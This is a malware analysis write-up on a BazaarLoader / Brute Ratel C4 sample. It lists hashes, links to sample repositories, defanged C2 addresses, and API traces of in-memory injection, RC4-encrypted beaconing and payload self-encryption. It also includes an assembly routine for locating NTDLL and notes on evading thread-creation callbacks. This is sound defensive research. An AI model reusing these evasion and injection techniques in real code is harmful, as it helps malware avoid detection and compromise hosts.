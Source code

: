 ```yaml
---
title: "BazaarLoader"
date: 2025-02-04
---
```


Dropper SHA256 : 1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
BazaarLoader SHA256 : 5C7A3BD2BAA8303354D8098B8D5961F111E467002BB0C6FEE120825B32798228  

Dropper Source :  
https://virusshare.com/file?1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
https://contagiodump.blogspot.com/2024/11/2024-10-30-lunar-spiders-latrodectus-js.html  

Payload Source :  
https://virusshare.com/file?5c7a3bd2baa8303354d8098b8d5961f111e467002bb0c6fee120825b32798228  


VT Dropper : https://www.virustotal.com/gui/file/1b9e17bfbd292075956cc2006983f91e17aed94ebbb0fb370bf83d23b14289fa  
VT BazaarLoader : https://www.virustotal.com/gui/file/5c7a3bd2baa8303354d8098b8d5961f111e467002bb0c6fee120825b32798228  

Network / C2 :  
http://tiguanin[.]com/bazar.php:8041  
http://bazarunet[.]com/admin.php:8041  
http://greshunka[.]com/bazar.php:8041 

Report :  
https://blog.eclecticiq.com/inside-intelligence-center-lunar-spider-enabling-ransomware-attacks-on-financial-sector-with-brute-ratel-c4-and-latrodectus

Analyzed sample is a 64bit malware named by various security engines BazaarLoader or BruteRatel C4.

Runtime analysis results are shared in logs.txt which contains an execution trace until the sample tries to reach a C2.

---

*** Commentary *** 

Analyzed sample contains many protection against runtime analysis / detection :

---

NTDLL Base Address :

The sample use the fact that PEB->LDR is located whithin NTDLL image to locate its base address : 

```asm
                       mov   	rax,qword ptr gs:[60h]  	; rax = PEB
                       mov     	rax,qword ptr [rax+18h] 	; rax+18h = PEB->LDR
                       jmp     	__start
                       nop
__findheaderloop: 
                       sub     	rax,1
__start: 
                       cmp     	word ptr [rax],5A4Dh 		; 'MZ' Magic
                       jne     	__findheaderloop
                       movsxd  	rdx,dword ptr [rax+3Ch]
                       lea     	rcx,[rdx-40h]
                       cmp     	rcx,3BFh
                       ja      	__findheaderloop
                       cmp     	dword ptr [rax+rdx],4550h	; 'PE' Magic
                       jne     	__findheaderloop
                       ret
```

memory layout:

```
            Address  	  Symbol							
            7fff883dc000  Limit NTDLL			(NTDLL Base + Size)
            7fff88360320  _PEB_LDR_DATA                 (PEB->Ldr)
            7fff88230000  C:\Windows\SYSTEM32\ntdll.dll (NTDLL Base Address)
            ...
            7ff7409a3000  PEB
            ...
            00876d490000  C:\Windows\system32\rundll32.exe
```

`sub     rax,1` : Here the developper was a bit lazy and used a 1 byte decrement instead on aligning on PAGE_SIZE and decrementing 0x1000 bytes at a time.

---

In memory execution :

```python
Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <VirtualAllocEx> in [KERNEL32.DLL] 
Parameter : HANDLE hProcess     : 0xffffffff
Parameter : LPVOID lpAddress    : 0x0
Parameter : SIZE_T dwSize       : 0x3dbbf
Parameter : DWORD  flProtect    : 0x40 (PAGE_EXECUTE_READWRITE)
Return  @ : 0x2e4d113c9

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [RES]  <VirtualAllocEx>
Result    : LPVOID  0x000000FA94200000

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <WriteProcessMemory> in [KERNEL32.DLL] 
Parameter : HANDLE  hProcess      : 0xffffffff
Parameter : LPVOID  lpBaseAddress : 0x000000FA94200000
Parameter : LPCVOID lpBuffer      : 0x00000002E4D13010
Parameter : SIZE_T  nSize         : 0x3dbbf
Return  @ : 0x2e4d113fe

Monitoring: [pid 0x9d8][tid 0xb00] c:\windows\system32\rundll32.exe
Monitoring: [API] <CreateRemoteThread> in [KERNEL32.DLL] 
Parameter : HANDLE                 hProcess           : 0xffffffff
Parameter : LPSECURITY_ATTRIBUTES  lpThreadAttributes : 0x0
Parameter : SIZE_T                 dwStackSize        : 0x0
Parameter : LPTHREAD_START_ROUTINE lpStartAddress     : 0x00000002E4D11370 // jmp rcx
Parameter : LPVOID                 lpParameter        : 0x000000FA94200000 // Allocated memory
Parameter : DWORD                  dwCreationFlags    : 0x0
Parameter : LPDWORD                lpThreadId         : 0x0
Return  @ : 0x2e4d11434
```

A little trick regarding this CreateRemoteThread call, the thread's StartAddress doesn't point directly to the PAGE_EXECUTE_READWRITE allocated memory. Instead, lpStartAddress points to an `jmp rcx` instruction, rcx beeing the lpParameter from the created thread.  

--- 

Thread Pool Worker Threads :

```html
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpAllocWork> in [ntdll.dll] 
Parameter : PTP_WORK             *WorkReturn     : 0x000000FA9437E610
Parameter : PTP_WORK_CALLBACK    Callback        : 0x000000FA942C3250
Parameter : PVOID                Context         : 0x000000FA9437E618
Parameter : PTP_CALLBACK_ENVIRON CallbackEnviron : 0x0
Return  @ : 0xfa942d78a7

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpPostWork> in [ntdll.dll] 
Parameter : PTP_WORK    Work : 0x000000FA92382D80
Return  @ : 0xfa942d78b2

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <TpReleaseWork> in [ntdll.dll] 
Parameter : PTP_WORK    Work : 0x000000FA92382D80
Return  @ : 0xfa942d78bd

Thread created by monitored process : Now monitoring [pid 0x9d8][tid 0xb2c] // ThreadPool Worker Thread

Monitoring: [pid 0x9d8][tid 0xb2c] c:\windows\system32\rundll32.exe 
Monitoring: [API] <LoadLibraryExA> in [KERNEL32.DLL] 
Parameter : LPCTSTR lpFileName : 0x000000FA9437E693 ("iphlpapi.dll")        // DLL loaded by the worker thread
Parameter : DWORD   dwFlags    : 0x0 (Same behavior as LoadLibrary)
Return  @ : 0x7ff9b52e53c7                                                  // return address in NTDLL
```

The sample relies on the ThreadPool worker thread feature to execute various sensitives actions.  
MSDN : https://learn.microsoft.com/en-us/windows/win32/procthread/thread-pool-api  
Some POC : https://github.com/mobdk/WinSpoof  

Interestingly, the creation of a ThreadPool Worker thread doesn't seem to trigger any notification to the PsSetCreateThreadNotifyRoutine kernel callback interface...

--- 

Undocumented encryption routine :

```python
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [RES]  <_vsnprintf>
Parameter : char_t   *buffer : 0x000000FA9234AB10
String    :          -> "{"cds":{"auth":"OV1T557KBIUECUM5"},"mtdt":{"h_name":"home","wver":"x64/6.3","ip":"10.0.2.15","arch":"x64", "bld":"9600","p_name":"QwA6AFwAVwBpAG4AZABvAHcAcwBcAHMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlAA==","uid":"user","pid":"2520","tid":"2820"}}"
Result    : int 261

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction032> in [CRYPTSP.DLL] 
Monitoring: [ i ] [ Undocumented RC4 implementation ]
Parameter : PBINARY_STRING buffer : 0x000000FA9437E580
Field     :                -> Length    = 0x105
Field     :                -> MaxLength = 0x105
Field     :                -> Buffer    = 0x000000FA9234AA00 
Parameter : PBINARY_STRING key    : 0x000000FA9437E570
Field     :                -> Length    = 0x10
Field     :                -> MaxLength = 0x10
Field     :                -> Buffer    = 0x000000FA9234CBC0 ("S47EFEUO3D2O6641")
Return  @ : 0xfa942c4c35

[...]

Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <HttpSendRequestA> in [wininet.dll] 
Parameter : HINTERNET hRequest         : 0xcc000c
Parameter : LPCTSTR   lpszHeaders      : 0x0 (null)
Parameter : DWORD     dwHeadersLength  : 0x0
Parameter : LPVOID    lpOptional       : 0x000000FA923527B0
String    :           -> "88ea80d0a8145617084c1971a2e5f10dafc825dfa01aa9131c31eed2159e33380dff1f6c5b2b0f95bf9e3eccd60c1d280c96fa1f4acd82ac6739fad4"
String    :              "6dc3ae39d58a579d7cbdc8dd1c967704a3b004fc992ed35d75e2703445c5bb2b19fb645ca258fa35101d4f173c9b3c3b0f9c9cb98e06f588208a2ec5"
String    :              "e110eea0c0a030476ebcfb45f927108052af23591afb825078d85afa7137b4c160f29e08c276f2d7480b13b783b202c8cd7edaab47f5d3d68c20b176"
String    :              "64349c0ffaa7a1db232df74af01128bbbace85fa393e4986135462c5afbeb7869512bd7a573fb57ffccdf0df421aa0d128b895c68be4d67693dfc2bb"
String    :              "746254a1d74abbbe448de8cdb5ac4c87c33a42345d" // RC4 encrypted fingerprint
Parameter : DWORD     dwOptionalLength : 0x20a
Return  @ : 0xfa942c79dc
```

Here the sample is relying on the undocumented SystemFunction032 function from CRYPTSP.DLL to encrypt through RC4 the initial fingerprint of the compromised host (RC4 Key : "S47EFEUO3D2O6641").

--- 

Encrypted in memory payload :

```python
Monitoring: [pid 0x9d8][tid 0xb04] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction036> in [CRYPTBASE.DLL] 
Monitoring: [ i ] [ RtlGenRandom ]
Parameter : PVOID RandomBuffer       : 0x000000FA94A7FC54
Parameter : ULONG RandomBufferLength : 0x10                 // generate a random 16byte key
Return  @ : 0xfa942d85a6

[...]

Monitoring: [pid 0x9d8][tid 0xf8] c:\windows\system32\rundll32.exe
Monitoring: [API] <SystemFunction032> in [CRYPTSP.DLL] 
Monitoring: [!] [Illegitimate call detected !]
Monitoring: [ i ] [ Undocumented RC4 implementation ]
Parameter : PBINARY_STRING buffer : 0x000000FA94A7FC68
Field     :                -> Length    = 0x4c000
Field     :                -> MaxLength = 0x4c000
Field     :                -> Buffer    = 0x000000FA942C0000 // memory allocated for the CreateRemoteThreadCall (see above)
Parameter : PBINARY_STRING key    : 0x000000FA94A7FC78
Field     :                -> Length    = 0x10
Field     :                -> MaxLength = 0x10
Field     :                -> Buffer    = 0x000000FA94A7FC54 ([0x3a,0xd,0x53,0xf4,0x17,0x47,0x50,0xe3,0x27,0x3d,0x4f,0x63,0x88,0xd,0xf4,0x50])
Return  @ : 0x7ff9b6342600
```

Here the malware ensure to be fully encrypted whenever possible, which prevents memory dumps as well as in memory signatures.
The key is changed  after each payload execution.
Setting a BreakPoint on this function call enable to dump the unencrypted payload from memory.

